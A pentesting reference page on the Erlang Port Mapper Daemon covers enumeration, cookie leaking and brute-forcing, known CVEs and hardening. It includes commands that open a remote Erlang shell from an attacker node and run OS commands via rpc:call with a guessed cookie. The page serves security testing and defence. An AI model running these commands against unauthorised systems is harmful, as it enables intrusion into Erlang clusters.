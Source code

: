 # 4369 Pentesting Erlang Port Mapper Daemon (epmd)

{{#include ../banners/hacktricks-training.md}}

## Basic Info

The **Erlang Port Mapper Daemon (epmd)** serves as a coordinator for distributed Erlang instances. It maps symbolic node names to the TCP port on which every node listens for **Erlang Distribution** traffic.

**Default port**: **4369/tcp**

```
PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
```

`epmd` is shipped with Erlang/OTP and is therefore reachable on many Erlang–based products such as **RabbitMQ**, **Apache CouchDB**, **ejabberd**, **FreeSWITCH/Kazoo**, etc.

> Shadowserver Internet-wide scans (Dec 2023) still observed **>100 000** publicly reachable `epmd` services.

---

## Enumeration

### Manual

```bash
# ask epmd for the list of registered nodes (NAMESREQ = 110 = 0x6e)
echo -ne "\x00\x01\x6e" | nc -nv <IP> 4369
```

Or, using an Erlang shell:

```bash
# Install Erlang (Debian/Ubuntu example)
apt install erlang -y
# Query names table
erl -noshell -hidden -sname probe -eval 'io:format("~p~n", [net_adm:names("<IP>")]), halt().'
```

### Automatic

```bash
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info <IP>
```

---

## Remote Code Execution via Distributed Erlang

`epmd` **itself is not the vulnerability**.  It merely exposes the TCP port of each node that participates in the Erlang Distribution protocol (usually 25672/tcp on RabbitMQ, random high port on CouchDB, …).  Once an attacker discovers that second port **and knows / guesses the node’s cookie**, they can join the cluster and execute arbitrary Erlang code.

### Leaking / Brute-forcing the Cookie

*    Default cookie file: `~/.erlang.cookie` (600).  Older server builds shipped predictable values such as `monster` (CouchDB ≤ 3.2.1 – see CVE-2022-24706 below).
*    For single-tenant containers the cookie is often baked into the image (check `vm.args`, `relx.config`, Helm charts, etc.).
*    Tools:  `epmd_bf.erl`, **ERLPopper** (2021, Python re-implementation),  Metasploit `auxiliary/scanner/erlang/epmd_cookie_bruteforce` (added MSF 6.3).

### Connecting and executing OS commands

```bash
# Interactive remote shell once the cookie is known
erl -name pwn@ATTACKER -setcookie <COOKIE> -remsh <NODE>@<HOST>

# Non-interactive RCE example (RabbitMQ)
HOME=/ erl -sname anon -setcookie <COOKIE> \
   -eval 'rpc:call("rabbit@localhost", os, cmd, ["id"]), halt().' -noshell
```

---

## Recent Vulnerabilities (2022-2025)

| Year | CVE / Advisory | Affected | Impact & Notes |
|------|----------------|----------|----------------|
|2025|CVE-2025-32433|Erlang/OTP `ssh` application|Unauthenticated RCE via crafted SSH messages. Although unrelated to `epmd`, exploitation is often preceded by an `epmd` scan to locate Erlang nodes.  Patch ≥ 27.3.3 (OTP 27), 26.2.5.11, 25.3.2.20.|
|2024|"Security Best Practices: epmd" (RabbitMQ blog) |RabbitMQ clusters|>85 000 public `epmd` instances make inter-node ports discoverable and pave the way for cookie attacks.  Blog walks through hardening steps: bind to localhost, firewall, or disable Distribution entirely.|
|2022|CVE-2022-24706|Apache CouchDB ≤ 3.2.1|Default cookie `monster` + externally exposed Distribution port ⇒ remote privilege-escalation/RCE.  Fixed in 3.2.2 (refuses to start with default cookie; binds `epmd` + distribution port to 127.0.0.1).|

---

## Hardening & Defensive Measures

1. **Restrict network exposure**
   * *Firewall*: only trusted management networks should reach 4369/tcp **and** the dynamically advertised distribution port (e.g., 25672/tcp for RabbitMQ).
   * Cloud SG example (AWS):
     ```bash
     aws ec2 authorize-security-group-ingress \
       --group-id sg-XXXX --protocol tcp --port 4369-4370 \
       --source-group sg-INTERNAL_ONLY
     ```

2. **Bind `epmd` to localhost or a dedicated VLAN**
   * Set env `ERL_EPMD_ADDRESS=127.0.0.1` **or** launch `epmd -address 127.0.0.1`.
   * Since OTP 24: `-start_epmd false` prevents the VM from auto-starting `epmd`.
   * Since OTP 23: `-no_epmd` completely disables the need for `epmd` when you use static node configuration.

3. **Encrypt Erlang Distribution**  (still uses `epmd` for discovery)
   * Run nodes with `-proto_dist inet_tls` and provide an `-ssl_dist_optfile` containing mutual-TLS settings (certs, `verify_peer`, etc.).  Only nodes with valid client certs will be able to complete the handshake and read the cookie.

4. **Rotate and protect cookies**
   * Generate 128-bit random values; store them in a secret manager (Kubernetes secret, Vault, AWS SM, …).
   * Ensure `~/.erlang.cookie` is `600` and owned by the release user.

5. **Monitor** Shodan/Censys/BinaryEdge for accidental exposure
   * Shodan query: `port:4369 "Erlang Port Mapper Daemon"`
   * BinaryEdge tag: `EPMD_SCANNER`.

---

## Shodan

* `port:4369 "Erlang Port Mapper Daemon"`
* `product:"epmd"`

---

## References

* RabbitMQ – Security Best Practices: epmd (blog, Dec 2024)  
* Apache CouchDB – CVE-2022-24706 advisory

{{#include ../banners/hacktricks-training.md}}

